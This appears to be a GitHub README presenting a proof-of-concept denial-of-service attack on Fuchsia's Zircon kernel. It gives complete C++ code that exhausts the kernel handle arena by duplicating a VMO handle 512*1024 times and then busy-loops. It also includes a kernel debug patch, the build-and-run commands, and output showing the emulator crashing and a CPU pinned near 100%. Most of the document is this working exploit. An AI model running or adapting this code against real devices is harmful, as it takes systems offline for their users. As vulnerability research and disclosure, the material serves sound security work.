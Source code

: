 # Dos on Fuchsia

May only take you 1 min.

## Set-up


Replace "/examples/hello_world/cpp/helloworld.cc" with the following code.

// Get a handle by calling  zx_vmo_create, then call zx_handle_duplicate to duplicate the handle. 

// Here I try to duplicate 512\*1024 handles, while the max number of handles is initialized as 256\*1024 in _arena.Init().

    #include  <zircon/syscalls.h>
	#include  <iostream>
	#define  max_num  512*1024
	zx_handle_t  res_handle[max_num];
	int  main() {
		std::cout  <<  "Hello, Worldddddd!\n";
		zx_handle_t  handle1;
		zx_status_t  sys_ret;
		sys_ret = zx_vmo_create(10,0,&handle1);
		if(sys_ret==ZX_ERR_INVALID_ARGS)
		{
			printf("wrong with zx_vmo_create");
		}
		else  if(sys_ret == ZX_ERR_NO_MEMORY)
		{
			printf("wrong no mem");
		}
		else
		{
			printf("syscall success");
		}
		int  i=0;
		while (i < max_num)
		{
			sys_ret = zx_handle_duplicate(handle1,ZX_RIGHT_SAME_RIGHTS,&res_handle[i]);
			if(sys_ret==ZX_ERR_NO_MEMORY)
			{
			// printf("Ddddddddos");
			}
			i++;
		}
		while (1)
		{}
		return  0;
	}
    
   Call printf(...) when handle could not be created.
   
   /zircon/kernel/lib/fbl/include/fbl/gparena.h
   

    void* Alloc(){
	...

		do{
			...
			if(...){
				if(...){
					printf("DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!"); // here!!!
					return nullptr;
				}
			}
		}while (!top_.compare_exchange_strong(top, next_top, ktl::memory_order_relaxed,
					ktl::memory_order_relaxed));
		count_.fetch_add(1, ktl::memory_order_relaxed);
		return  reinterpret_cast<void*>(top);
	}

## Run

Open four terminals. 

Terminal 1

    $ fx set workstation.qemu-x64 --cache --with //example/hello_world
    $ fx build
    $ fx vdl start -N -u FUCHSIA_ROOT/scripts/start-unsecure-internet.sh

Terminal 2

    $ fx serve-updates

Terminal 3

    $ fx log

Terminal 4
	

   ```
$ ffx component run fuchsia-pkg://fuchsia.com/hello-world#meta/hello-world-cpp.cm
```

## Result
Warnning in Terminal 2, on my machine the FEMU will crash.

Terminal 1
```

$ ssh: Could not resolve hostname : Temporary failure in name resolution
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host

```

If you set the 'max_num' value to a small value like 10 in hello_world.cc, the FEMU can still work with the hello_world component. It means that it's feasible to  Dos attack the zircon kernel by loading malicious component. 

```
PID      TID        TIME%  CPU STATE NAME
59937    59939      99.99    3   run hello-world-cpp.cm:initial-thread
26905    26907       0.46    0 block ptysvc.cm:initial-thread
36894    37138       0.45    0 block netstack.cmx:pthread_t:0x18720985b18
 6658     7948       0.43    2 block driver_host:composite-device:virtio-net-irq-worker
54060    54062       0.38    2 block /pkg/bin/sshd:initial-thread
77419    77421       0.36    0   run top:initial-thread
36894    37148       0.35    2 block netstack.cmx:pthread_t:0x90d20f1b18
36894    37161       0.27    2 block netstack.cmx:pthread_t:0x1e2b9737b18

```
